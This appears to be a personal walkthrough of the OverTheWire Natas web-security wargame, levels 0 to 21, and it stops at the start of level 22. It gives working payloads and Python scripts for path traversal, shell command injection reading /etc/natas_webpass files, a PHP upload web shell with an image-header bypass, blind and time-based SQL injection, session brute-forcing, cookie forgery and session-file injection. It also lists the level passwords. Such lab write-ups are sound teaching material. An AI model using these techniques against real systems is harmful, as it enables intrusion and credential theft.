



# Natas

https://overthewire.org/wargames/natas/

## Natas 0

> Username: natas0  
Password: natas0  
URL:      http://natas0.natas.labs.overthewire.org

In this level we just need to log in using the given credentials.

## Natas 1

> The page says: "You can find the password for the next level on this page."

By checking the source code of the page, we find a comment with the password for the next level:


Password: 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq

## Natas 2

> The page says: "You can find the password for the next level on this page, but rightclicking has been blocked!"

even if the right-click is blocked, we can still view the source code of the page by opening the browser's developer tools with F12. The password is in a comment:


Password: TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI

## Natas 3

> The page says: "There is nothing on this page".

These time there are no comments in the source code, but we can see an img element:


Let's check if we have access to the files/:


We can see that there is a file called "files/users.txt" which contains the password for the next level:

Password: 3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH

## Natas 4

> The page says "There is nothing on this page" and in the source code there is a comment that says "No more information leaks!! Not even Google will find it this time...".

The hint is is the word "Google". Trying opening the page with chrome doesn't help. So let's try with one of the first things to try in web CTFs: robots.txt. Let's got to the URL http://natas3.natas.labs.overthewire.org/robots.txt:


In the s3cr3t folder there is a file called "users.txt" which contains the password for the next level: QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

## Natas 5

> The page says: "Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

The hint suggests to send the request for the page with the "Referer" header set to "http://natas5.natas.labs.overthewire.org/". We can do this in the developer tools of the browser:


Password: 0n35PkggAPm2zbEpOU802c0x0Msn1ToK 

## Natas 6

> The page says: "Access disallowed. You are not logged in"

Since we are not log in let's check the cookies of the page:


There is a cookie called "loggedin" with the value "0". Let's try to change it to "1" and refresh the page (spoiler: it works):


Password: 0RoJwHdSKWFTYR5WuiAewauSuNaBXned

## Natas 7

> The page shows a form with a text input (Input secret) and a submit button. We can also check the source code.

The code behind the form is:

```php
<?
include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
        } else {
            print "Wrong secret";
        }
    }
?>
```

The secret is stored in the "includes/secret.inc" file, which we can access by going to the URL http://natas6.natas.labs.overthewire.org/includes/secret.inc:


secret: FOEIUWGHFEEUHOFUOIU

We submit this secret in the form and we get the password for the next level:


Password: bmg8SvU1LizuWjx3y7xkNERkHxGre0GS

## Natas 8

> The page shows a `Home` and an `About` buttons.

First we check the body for hints. We find a comment that says `password for webuser natas8 is in /etc/natas_webpass/natas8`.
If we click the buttons, we are taken to a new page that says `This is the X page`. Nothing crazy here.  
Let's check the url of the page: `http://natas7.natas.labs.overthewire.org/index.php?page=home`. We can see that the page is loaded with a `page` parameter, so let's try to change it to `huh` and see what happens:


Since the code looks for a file called `huh` in the `/var/www/natas/natas7` directory. Path traversal?  
The hint in the comment says that the password is in `/etc/natas_webpass/natas8`, so let's try to access it with a path traversal attack by putting the following in the `page` parameter:  
`../../../../etc/natas_webpass/natas8`:


Password: xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q 

## Natas 9

> The page shows a form identical to the one in natas7, but with different source code.

The code behind the form is:

```php
<?
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

The secret is encoded with a function that first encodes the secret in base64, then reverses the string and finally encodes it in hex.
To get the secret we can use the following code:

```python
import base64

encoded = "3d3d516343746d4d6d6c315669563362"
# Hex decode
bytesFromHex = bytes.fromhex(encoded)
# Reverse string
reversedBytes = bytesFromHex[::-1]
# Base64 decode
secret = base64.b64decode(reversedBytes).decode()
print(secret)
```

And we get the secret: oubWYf2kBq

We submit this secret in the form and we get the password for the next level: ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t


## Natas 10

> The page shows this form:


Let's check the source code:

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

The code uses puts our input ($key) into the `grep` command without any sanitization. This allows command injection attacks, which in this case means execute arbitrary commands on the server.  
To exploit this vulnerability, we just have to put a command between two `;` and send it as input in the form. This works because if the semicolon is not escaped, it will be interpreted as a command separator by the shell.
For example, we can try `; ls -la;`:


Now let's think, where is the password for the next level?
Natas 8 said that the password for the next level is in `/etc/natas_webpass/natas8`, so let's try to look for `/etc/natas_webpass/natas10` using `;cat /etc/natas_webpass/natas10;`:


Password: t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

## Natas 11

> The page shows this form:


The code behind the form is:

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

The code uses `preg_match` to check if the input contains any of the characters `;`, `|` or `&`. If it does, it prints an error message.
This means that we can't use these characters to inject commands.  
One way to go around this is to pass an empty string to the `grep` command, to make it return all the lines in the output files. Then we can add the file we want to look in by just adding a space and the file name.  
For example, we can try `"" /etc/natas_webpass/natas11` as input:



Password: UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk

## Natas 12

> The page shows this form:
> 

The code behind the form is:

```php
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
            $mydata['showpassword'] = $tempdata['showpassword'];
            $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);
```

The code uses a cookie called `data` to store the data of the form. The data is "encrypted" with XOR encryption using a key that is not shown in the code.
The `loadData` function loads the data from the cookie and decodes it, while the `saveData` function saves the data to the cookie after encoding it.
The "xor_encrypt" function is used to encrypt the data before saving it to the cookie. It uses a key that is not shown in the code, but it is used to XOR each character of the input string with the corresponding character of the key.
The `bgcolor` parameter is validated with a regular expression to ensure it is a valid hex color code.  
The `showpassword` parameter is not used in the code, but it is set to "no" by default.  
To get the password for the next level, we need to set the `showpassword` parameter to "yes" and then save the data to the cookie.  
To do this, we need the secret key used for the XOR encryption.
To find the key, we can try to brute force it by trying all possible combinations of characters. However, a better approach is to XOR the known plaintext (default data) with the ciphertext (decoded cookie) to find the key.

The known plaintext is:
```json
{"showpassword":"no","bgcolor":"#ffffff"}
```

The ciphertext is the value of the `data` cookie, which we can get by inspecting the cookies in the browser.

Cookie value: `HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg=`

The following code can be used to recover the key:

```python
import base64
encoded = "HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg="
ciphertext = base64.b64decode(encoded)
plaintext = b'{"showpassword":"no","bgcolor":"#ffffff"}'
recovered = bytes([ciphertext[i] ^ plaintext[i] for i in range(len(plaintext))])
print(recovered)
```

I get `eDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoe`, so the key is `eDWo`.

Let's check that the key is correct by encrypting the default data with it:

```python
import base64

def xor_encrypt(inpt, key):
    return bytes([inpt[i] ^ key[i % len(key)] for i in range(len(inpt))])

key = b'eDWo'
data = b'{"showpassword":"no","bgcolor":"#ffffff"}'
encrypted = xor_encrypt(data, key)
print(base64.b64encode(encrypted))
```

The key is correct, as it returns the same value as the cookie value.
Now let's craft our own cookie with the `showpassword` parameter set to "yes":

```python
import base64

def xor_encrypt(inpt, key):
    return bytes([inpt[i] ^ key[i % len(key)] for i in range(len(inpt))])

key = b'eDWo'
data = b'{"showpassword":"yes","bgcolor":"#ffffff"}'
encrypted = xor_encrypt(data, key)
print(base64.b64encode(encrypted))
```

This returns `HmYkBwozJw4WNyAAFyB1VUc9MhxHaHUNAic4Awo2dVVHZzEJAyIxCUc5`. We put this value in the `data` cookie and refresh the page:


Password: yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB

## Natas 13

> The page shows this form:
> 

The code behind the form is:

```php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


    if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
}
```

genRandomString():
- Generates a random string of 10 lowercase letters and digits.
- Used to create unpredictable filenames for uploads.

makeRandomPath($dir, $ext):
- Calls genRandomString() to get a random filename.
- Appends the given extension ($ext).
- Checks if a file with that name already exists in $dir.
- If it does, repeats until a unique filename is found.
- Returns the full path for the new file.

makeRandomPathFromFilename($dir, $fn):
- Extracts the file extension from the original filename ($fn).
- Calls makeRandomPath() to generate a unique path in $dir with the same extension.

File upload logic:
- Checks if the POST request contains a filename field.
- Calls makeRandomPathFromFilename() to get a unique upload path in the upload directory.
- Checks if the uploaded file (from $_FILES['uploadedfile']) is larger than 1000 bytes.
- Otherwise, tries to move the uploaded file to the generated path.

If we try to upload a file with any extension, the extension will be changed to `.jpg`. If we manage to upload a file with a `.php` extension, it will be executed by the server.  
Let's check the request's payload sent to the server when we upload a file:


As we can see we have control over the final filename. Now let's create a php script to read the password in the `/etc/natas_webpass/natas13` file and print it. We can name the file `read13Pass.php`:

```php
<?php
$output=null;
$retval=null;
exec('cat /etc/natas_webpass/natas13', $output, $retval);
print_r($output);
?>
```

Now we can upload this file to the server. We can intercept and then edit the request with burp suite or any other proxy tool. In this case I'll just use the `Edit and Resend` feature of the browser's developer tools to edit the file name's extension to `.php`.


Password: trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC

## Natas 14

> The page shows this form:  
>   
> The source code now implements some kind of check on the extention of the uploaded file:  
> ```php
> if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
>     echo "File is not an image";
> }
> ```

If we look at how `exif_imagetype` works, we can see that it reads the first bytes of the image file to determine its type based on its signature (not the file extension). This means we can bypass the extension check by uploading a file with a valid image signature, even if the file itself is not a valid image (a script for example).

To do this, we can craft a valid JPEG file and then append our PHP code to it:

```bash
echo -n -e "\xFF\xD8\xFF\xE0\x00\x10JFIF\x00\x01\x01\x01\x00\x60\x00\x60\x00\x00" > image.jpg
cat read14pass.php >> image.jpg
mv image.jpg read14passImage.php
```

Where `read14pass.php` is the same code we used in the previous level, with the only difference being that we print the password for natas14.  
Now we can upload the file and do the same interception and edit trick as before.


Password: z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ

## Natas 15

> The page shows this form:  
>   
> The source code is:  
> ```php
> <?php
> if(array_key_exists("username", $_REQUEST)) {
>     $link = mysqli_connect('localhost', 'natas14', '<censored>');
>     mysqli_select_db($link, 'natas14');
> 
>     $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
>     if(array_key_exists("debug", $_GET)) {
>         echo "Executing query: $query<br>";
>     }
> 
>     if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
>             echo "Successful login! The password for natas15 is <censored><br>";
>     } else {
>             echo "Access denied!<br>";
>     }
>     mysqli_close($link);
> } else {
> ?>
> <form action="index.php" method="POST">
> Username: <input name="username"><br>
> Password: <input name="password"><br>
> <input type="submit" value="Login" />
> </form>
> <?php } ?>
> ```

The code connects to the MySQL database and checks if the provided username and password match any user in the `users` table.
If the query returns any rows, it means the login is successful and the password for natas15 is printed.  
The query is constructed using the provided username and password without any sanitization, which makes it vulnerable to SQL injection attacks.  
To exploit this vulnerability, we can use a SQL injection attack to bypass the authentication mechanism and retrieve the password for natas15.

To do this, we can use the following payload for the username and password fields:

```
Username: " OR "1"="1
Password: " OR "1"="1
```

This payload will make the query always return true.


Password: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx

## Natas 16

> The page shows this form:  
>   
> The source code is:
> ```php
> <?php
> /*
> CREATE TABLE `users` (
>   `username` varchar(64) DEFAULT NULL,
>   `password` varchar(64) DEFAULT NULL
> );
> */
> 
> if(array_key_exists("username", $_REQUEST)) {
>     $link = mysqli_connect('localhost', 'natas15', '<censored>');
>     mysqli_select_db($link, 'natas15');
> 
>     $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
>     if(array_key_exists("debug", $_GET)) {
>         echo "Executing query: $query<br>";
>     }
> 
>     $res = mysqli_query($link, $query);
>     if($res) {
>       if(mysqli_num_rows($res) > 0) {
>           echo "This user exists.<br>";
>       } else {
>           echo "This user doesn't exist.<br>";
>       }
>     } else {
>         echo "Error in query.<br>";
>     }
> 
>     mysqli_close($link);
> } else {
> ?>
> 
> <form action="index.php" method="POST">
> Username: <input name="username"><br>
> <input type="submit" value="Check existence" />
> </form>
> <?php } ?>
> ```

The code connects to the MySQL database and checks if the provided username exists in the `users` table.
If the query returns any rows, it means the user exists and a message is printed.  
$_GET is used to check if the `debug` parameter is set, in which case it prints the executed query. To use it we can add `?debug=1` to the URL.


The query is constructed using the provided username without any sanitization, which makes it vulnerable to SQL injection attacks.  
Since we only get "This user exists." or "This user doesn't exist." messages, to find the password we can make the query check if the password starts with a specific character and extract the password character by character.
To do this, we can use the following payload for the username field:

```
Username: natas16" AND SUBSTRING(password,1,1) = "a" --
```

This payload will make the query check if the password starts with the letter "a". If it does, we will get the message "This user exists.", otherwise we will get "This user doesn't exist.".  
Now we have to automate the process of checking each character of the password. We can use a script to do this:

```python
import requests
import string
from requests.auth import HTTPBasicAuth

URL = "http://natas15.natas.labs.overthewire.org/index.php?debug=1"
auth=HTTPBasicAuth('natas15', 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx')
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
known = ""
found = True
charSet = string.digits + string.ascii_letters

for i in range(1, 65):
    if not found:
        break
    for c in charSet:
        payload = f'username=natas16" AND BINARY SUBSTRING(password,{i},1) = "{c}" -- '
        r = requests.post(url=URL, headers=headers, auth=auth, data=payload)
        if "This user exists" in r.text:
            found = True
            known += c
            print(known)
            break
        else:
            found = False
```

This script will try each character in the character set for each position in the password until it finds the correct character. `BINARY` is used to make the comparison case-sensitive, which is important since the password is case-sensitive.


Password: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo

## Natas 17

> The page shows this form:  
>   
> The source code is:  
> 
> ```php
> <?
> $key = "";
>
> if(array_key_exists("needle", $_REQUEST)) {
>     $key = $_REQUEST["needle"];
> }
> 
> if($key != "") {
>     if(preg_match('/[;|&`\'"]/',$key)) {
>         print "Input contains an illegal character!";
>     } else {
>         passthru("grep -i \"$key\" dictionary.txt");
>     }
> }
> ?>
> ```

We have another grep challenge.
The code uses `preg_match` to check if the input contains any of the characters `;`, `|`, `&`, `` ` ``, `'` or `"`. If it does, it prints an error message. Despite this, we can still use `$(command)` to execute a command and use its output as input for the `grep` command.
One idea is to cat the password for natas17 from the `/etc/natas_webpass/natas17` file, append it to dictionary.txt and then look for it in the file:

```bash
$(cat /etc/natas_webpass/natas17 >> dictionary.txt)
$(cat /etc/natas_webpass/natas17)
```

Unfortunately, this doesn't work.  
THINK KARIM, THINK!  
What if we grep the password for natas17 and check with which character it starts?  
If we don't guess the character, an empty string will be given as input to the `grep` command on dictionary.txt, which will return the content of dictionary.txt. BUT, if we guess the first character, we will get the password for natas17, which will be given as input to the `grep` command on dictionary.txt, which will return nothing, since the password is not in the dictionary.txt file.  
Thank to this different behavior we can do a blind attack and guess the password character by character:

```python
import requests
import string
from requests.auth import HTTPBasicAuth

URL = "http://natas16.natas.labs.overthewire.org/index.php"
auth=HTTPBasicAuth('natas16', 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo')
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
known = ""
found = True
charSet = string.digits + string.ascii_letters

for i in range(1, 65):
        if not found:
                break
        for c in charSet:
                queryString = f'?needle=$(grep ^{known+c} /etc/natas_webpass/natas17)&submit=Search'
                r = requests.post(url=URL+queryString, headers=headers, auth=auth)
                if "<pre>\n</pre>" in r.text:
                        found = True
                        known += c
                        print(known)
                        break
                else:
                        found = False
```

This script will send a request with a payload that greps the password with the current known password plus the next character in the character set. If the response contains `<pre>` tags, it means the query returned no results and we found the correct character. Otherwise, we try the next character.


Password: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC

## Natas 18

> The page shows this form:  
>   
> The source code is:  
> ```php
> <?php
> /*CREATE TABLE `users` (
>   `username` varchar(64) DEFAULT NULL,
>   `password` varchar(64) DEFAULT NULL
> );*/
>
> if(array_key_exists("username", $_REQUEST)) {
>     $link = mysqli_connect('localhost', 'natas17', '<censored>');
>     mysqli_select_db($link, 'natas17');
> 
>     $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
>     if(array_key_exists("debug", $_GET)) {
>         echo "Executing query: $query<br>";
>     }
> 
>     $res = mysqli_query($link, $query);
>     if($res) {
>       if(mysqli_num_rows($res) > 0) {
>         //echo "This user exists.<br>";
>       } else {
>         //echo "This user doesn't exist.<br>";
>       }
>     } else {
>         //echo "Error in query.<br>";
>     }
> 
>     mysqli_close($link);
> } else {
> ?>
> 
> <form action="index.php" method="POST">
> Username: <input name="username"><br>
> <input type="submit" value="Check existence" />
> </form>
> <?php } ?>
> ```

This level's source code is the same as natas16, except for the output echos which are commented. This makes the old solution not work anymore, since we can't check if the user exists or not.
Let's keep in mind the script we used in natas16. A way to solve this is to delay the query if we find the correct character, so that we can check if the query took longer than usual. To do this, we can use the `SLEEP` function in MySQL, which delays the execution of the query for a specified number of seconds:

```python
import requests
import string
from requests.auth import HTTPBasicAuth
import time

URL = "http://natas17.natas.labs.overthewire.org/index.php?debug=1"
auth=HTTPBasicAuth('natas17', 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC')
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
known = ""
found = True
charSet = string.digits + string.ascii_letters

for i in range(1, 65):
    if not found:
        break
    for c in charSet:
        payload = f'username=natas18" AND BINARY SUBSTRING(password,{i},1) = "{c}" AND sleep(5) -- '
        start = time.time()
        r = requests.post(url=URL, headers=headers, auth=auth, data=payload)
        elapsed = time.time() - start
        if elapsed > 4:
            found = True
            known += c
            print(known)
            break
        else:
            found = False
```


Password: 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ

## Natas 19

> The page shows this form:  
>   
> The source code is:  
> ```php
> <?php
> $maxid = 640; // 640 should be enough for everyone
> 
> function isValidAdminLogin() { /* {{{ */
>     if($_REQUEST["username"] == "admin") {
>     /* This method of authentication appears to be unsafe and has been disabled for now. */
>         //return 1;
>     }
>     return 0;
> }
> /* }}} */
> function isValidID($id) { /* {{{ */
>     return is_numeric($id);
> }
> /* }}} */
> function createID($user) { /* {{{ */
>     global $maxid;
>     return rand(1, $maxid);
> }
> /* }}} */
> function debug($msg) { /* {{{ */
>     if(array_key_exists("debug", $_GET)) {
>         print "DEBUG: $msg<br>";
>     }
> }
> /* }}} */
> function my_session_start() { /* {{{ */
>     if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
>       if(!session_start()) {
>           debug("Session start failed");
>           return false;
>       } else {
>           debug("Session start ok");
>           if(!array_key_exists("admin", $_SESSION)) {
>               debug("Session was old: admin flag set");
>               $_SESSION["admin"] = 0; // backwards compatible, secure
>           }
>           return true;
>       }
>     }
> 
>     return false;
> }
> /* }}} */
> function print_credentials() { /* {{{ */
>     if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
>       print "You are an admin. The credentials for the next level are:<br>";
>       print "<pre>Username: natas19\n";
>       print "Password: <censored></pre>";
>     } else {
>       print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
>     }
> }
> /* }}} */
> 
> $showform = true;
> if(my_session_start()) {
>     print_credentials();
>     $showform = false;
> } else {
>     if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
>       session_id(createID($_REQUEST["username"]));
>       session_start();
>       $_SESSION["admin"] = isValidAdminLogin();
>       debug("New session started");
>       $showform = false;
>       print_credentials();
>     }
> }
> 
> if($showform) {
> ?>
> 
> <p>
> Please login with your admin account to retrieve credentials for natas19.
> </p>
> 
> <form action="index.php" method="POST">
> Username: <input name="username"><br>
> Password: <input name="password"><br>
> <input type="submit" value="Login" />
> </form>
> <?php } ?>
> ```

The code implements a session-based authentication system where users can log in with a username and password. If the username is "admin", the user is granted admin privileges. This feature is disabled in the code.
The session ID is created using a random number between 1 and 640, which is stored in the `PHPSESSID` cookie.  
The `my_session_start` function checks if the `PHPSESSID` cookie is set and valid, and starts a session if it is. If the session is started successfully, it checks if the `admin` flag is set in the session. If not, it sets the `admin` flag to 0 (not an admin). The `print_credentials` function displays the credentials for the next level if the user is an admin.

Getting the password for natas19 is easy, we just have to bruteforce the session ID until we find the admin:

```python
import requests
from requests.auth import HTTPBasicAuth

URL = "http://natas18.natas.labs.overthewire.org/index.php?debug=1"
auth=HTTPBasicAuth('natas18', '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ')
maxID = 640

for id in range(1, maxID+1):
    cookie = f'PHPSESSID={id}'
    print(f'Trying {cookie}', end='\r')
    headers = {'Content-Type': 'application/x-www-form-urlencoded', 'Cookie': cookie}
    r = requests.post(url=URL, headers=headers, auth=auth)
    if "You are an admin." in r.text:
        print(f'\n\n{r.text}')
        break
```


Password: tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr

## Natas 20

> The page shows this form:  
>   
> This time we have no source code.

Let's login as `admin` and check the PHPSESSIONID cookie. We get `PHPSESSID=33302d61646d696e`. If we login as a regular user (anything but username=admin, in this case `ad`), we get `PHPSESSID=3439382d6164`.  
If we check the session IDs, we can see that the admin session ID is `33302d61646d696e`, which is the hex representation of the string `30-admin`. The regular user session ID is `3439382d6164`, which is the hex representation of the string `49-ad`.  
So if we want to login as admin, we have to brute force the first part of the session ID. Assuming that the limit is the same as in natas19, we can try all the numbers from 0 to 640 and append `-admin` to it, then convert it to hex and set it as the `PHPSESSID` cookie.

```python
import requests
from requests.auth import HTTPBasicAuth

URL = "http://natas19.natas.labs.overthewire.org/index.php?debug=1"
auth=HTTPBasicAuth('natas19', 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr')
maxID = 640

for id in range(maxID+1):
    id = f'{id}-admin'.encode().hex()
    cookie = f'PHPSESSID={id}'
    print(f'Trying {cookie}', end='\r')
    headers = {'Content-Type': 'application/x-www-form-urlencoded', 'Cookie': cookie}
    r = requests.post(url=URL, headers=headers, auth=auth)
    if "to retrieve credentials for natas20" not in r.text:
        print(f'\n\n{r.text}')
        break
```


Password: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw

## Natas 21

> The page shows this form:  
>   
> The source code is:
> ```php
> <?php
> 
> function debug($msg) { /* {{{ */
>     if(array_key_exists("debug", $_GET)) {
>         print "DEBUG: $msg<br>";
>     }
> }
> /* }}} */
> function print_credentials() { /* {{{ */
>     if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
>         print "You are an admin. The credentials for the next level are:<br>";
>         print "<pre>Username: natas21\n";
>         print "Password: <censored></pre>";
>     } else {
>         print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
>     }
> }
> /* }}} */
> 
> /* we don't need this */
> function myopen($path, $name) {
>     //debug("MYOPEN $path $name");
>     return true;
> }
> 
> /* we don't need this */
> function myclose() {
>     //debug("MYCLOSE");
>     return true;
> }
> 
> function myread($sid) {
>     debug("MYREAD $sid");
>     if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
>     debug("Invalid SID");
>         return "";
>     }
>     $filename = session_save_path() . "/" . "mysess_" . $sid;
>     if(!file_exists($filename)) {
>         debug("Session file doesn't exist");
>         return "";
>     }
>     debug("Reading from ". $filename);
>     $data = file_get_contents($filename);
>     $_SESSION = array();
>     foreach(explode("\n", $data) as $line) {
>         debug("Read [$line]");
>         $parts = explode(" ", $line, 2);
>         if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
>     }
>     return session_encode() ?: "";
> }
> 
> function mywrite($sid, $data) {
>     // $data contains the serialized version of $_SESSION
>     // but our encoding is better
>     debug("MYWRITE $sid $data");
>     // make sure the sid is alnum only!!
>     if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
>         debug("Invalid SID");
>         return;
>     }
>     $filename = session_save_path() . "/" . "mysess_" . $sid;
>     $data = "";
>     debug("Saving in ". $filename);
>     ksort($_SESSION);
>     foreach($_SESSION as $key => $value) {
>         debug("$key => $value");
>         $data .= "$key $value\n";
>     }
>     file_put_contents($filename, $data);
>     chmod($filename, 0600);
>     return true;
> }
> 
> /* we don't need this */
> function mydestroy($sid) {
>     //debug("MYDESTROY $sid");
>     return true;
> }
> /* we don't need this */
> function mygarbage($t) {
>     //debug("MYGARBAGE $t");
>     return true;
> }
> 
> session_set_save_handler(
>     "myopen",
>     "myclose",
>     "myread",
>     "mywrite",
>     "mydestroy",
>     "mygarbage");
> session_start();
> 
> if(array_key_exists("name", $_REQUEST)) {
>     $_SESSION["name"] = $_REQUEST["name"];
>     debug("Name set to " . $_REQUEST["name"]);
> }
> 
> print_credentials();
> 
> $name = "";
> if(array_key_exists("name", $_SESSION)) {
>     $name = $_SESSION["name"];
> }
> 
> ?>
> ```

`session_set_save_handler` is used to define custom functions for session management. session_start() is called to start the session, which will use the custom functions defined above.
The custom functions are:
- `myopen`: Opens a session (not used in this case).
- `myclose`: Closes a session (not used in this case).
- `myread`: Reads the session data from a file and populates the `$_SESSION` array. It checks if the session ID is valid and if the session file exists. If it does, it reads the file contents and splits it into key-value pairs, which are then stored in the `$_SESSION` array.
- `mywrite`: Writes the session data to a file. It serializes the `$_SESSION` array and saves it to a file named `mysess_<session_id>`. It also ensures that the session ID is valid and that the file is created with the correct permissions (0600).
- `mydestroy`: Destroys a session (not used in this case).
- `mygarbage`: Cleans up old session files (not used in this case).

The `myread` callback is called internally by PHP when session_start() is called. The `mywrite` callback is called when the session is closed or when session_write_close() is called.

The `print_credentials` function checks if the user is an admin and prints the credentials for the next level if they are. If not, it prompts the user to log in as an admin. A user is considered an admin if the `admin` key in the `$_SESSION` array is set to 1.

This time the session ID is not a hex string, but a string of alphanumeric characters, and it changes every time we send a request, regardless of the name we choose.

So the main goal here is to find a way to set the `admin` key in the `$_SESSION` array to 1, so that we can retrieve the credentials for natas21.

To do this we have to write a new line, `admin 1`, in the session file, so that the read function will read it and set the `$_SESSION["admin"]` key to 1.  
As we can see from the code (right after `session_start();`), anything we pass as the `name` parameter will be set as the `$_SESSION["name"]` key. So for example, if we send a request with `name=huh`, the `mywrite` function will be called and it will write a line `name huh` in the session file. Since the input is not sanitized, we can use this to our advantage by appending `admin 1` to the line, so that the session file will contain two lines: `name huh` and `admin 1`. To do this the payload must be `name=huh\nadmin 1`, which URL-encoded is `name=huh%0Aadmin%201`.

So the first call with that payload will create the session file with the two lines, and the second call will read the session file and set the `$_SESSION["admin"]` key to 1, allowing us to retrieve the credentials for natas21. Let's do this with burp:

First we send a request with any name, for example `huh`, we intercept it and send it to the repeater:


In repeater we change the `name` parameter to `huh%0Aadmin%201` and send the request to write the session file:


Now we send the request again: 


Password: BPhv63cKE1lkQl04cE5CuFTzXe15NfiH

## Natas 22

> The page shows this form:  
> 
> The source code is:  
> ```php
> <?php
> 
